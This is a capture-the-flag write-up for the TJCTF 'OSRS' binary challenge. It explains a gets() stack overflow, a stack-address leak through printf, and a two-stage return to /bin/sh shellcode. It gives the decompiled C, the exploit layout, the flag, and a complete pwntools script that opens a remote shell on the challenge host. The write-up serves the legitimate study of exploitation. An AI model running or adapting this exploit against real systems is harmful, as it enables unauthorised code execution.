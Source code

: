 # tjctf: binary

## OSRS

Written by KyleForkBomb

_My friend keeps talking about Old School RuneScape. He says he made a service to tell you about trees._

_I don't know what any of this means but this system sure looks old! It has like zero security features enabled..._

`nc p1.tjctf.org 8006`

## Attacking

<p align="center">
<img src="checksec.png">
<br><i>zero security features</i> indeed
</p>

NX disabled clearly means that this will be a shellcode challenge, and a cursory glance at (cleaned) IDA will tell us just where that can be abused:

```c
char *trees[] = { "Normal", "The most common...", ... };
int get_tree()
{
  char s[0x100];
  int i;
  uint64_t padding; //padding added by compiler

  puts("Enter a tree type: ");
  gets(s); //BOF here!
  for (i = 0; i <= 12; ++i)
  {
    if (!strcasecmp(trees[2*i], s))
      return i;
  }
  printf("I don't have the tree %d :(\n", s);
  return -1;
}
```

Now, "_like_ zero security features" is a minor misdirection. ASLR is still enabled, and the stack address is only obtainable via the `printf()` leak of `s`.

The program ends right after that leak, so we'll have to reroute the return pointer towards `get_tree()` again for a 2nd buffer overflow, wherein we can allocate & jump to a `/bin/sh` shellcode.

```
input 1:
+---s[]---+-----r-----+
| garbage | get_tree()|
+--0x110--+-----4-----+
input 2:
+----s[]----+------r------+
| shellcode | addr of s[] |
+---0x110---+------4------+
```

There are two corollaries to the exploit that may not be immediately apparent without experience.

Firstly, `printf()` leaks the address of `s[]` with a `%d` format specifier. The negative number that is (likely to be) outputted must be converted to its hex form in accordance with [Two's complement](https://en.wikipedia.org/wiki/Two's_complement).

Secondly, the address of `s[]` is not constant. Because 4 bytes are used in jumping to `get_tree()` again, the correct address of `s[]` for input 2 will be the leaked address +4. 

With that in mind, everything will work out fine:
<p align="center">
<img src="shellflag.png">
</p>

## flag

`tjctf{tr33_c0de_in_my_she115}`

## code

```python
from pwn import *
get_tree = ELF('./osrs').symbols['get_tree']
r_offset = 0x10C+4
r = remote('p1.tjctf.org', 8006)
r.sendlineafter(': \n', r_offset*'A' + p32(get_tree))
r.recvuntil('tree ')
s_addr = (1<<32)+int(r.recvuntil(' '))
sh = asm(shellcraft.i386.linux.sh(), arch='i386')
r.sendlineafter(': \n', sh.ljust(r_offset) + p32(s_addr+4))
r.interactive()
```
